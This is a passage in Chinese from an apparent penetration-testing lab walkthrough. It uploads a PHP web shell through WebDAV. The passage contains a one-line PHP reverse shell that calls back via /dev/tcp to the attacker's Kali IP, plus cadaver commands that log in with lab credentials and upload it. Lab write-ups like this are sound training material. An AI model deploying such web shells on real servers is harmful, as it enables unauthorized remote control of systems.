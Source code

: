 基本上都可以上传，再看一下执行权限：

![image-20240728124750627](./imgs/image-20240728124750627.png)

发现是可以执行php文件的，因此我们可以尝试上传php类型的反弹shell，先编写一个shell.php，注意要写kali的ip：

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/172.16.31.10/1234 0>&1'"); ?>
```

![image-20240728124844641](./imgs/image-20240728124844641.png)

 然后再利用一个客户端。把shell.php上传，此处使用的webdav客户端是cadaver：

```bash
cadaver http://172.16.31.11/webdav
输入用户名和密码(yamdoot:Swarg)
put shell.php
```

![image-20240728124954953](./imgs/image-20240728124954953.png)
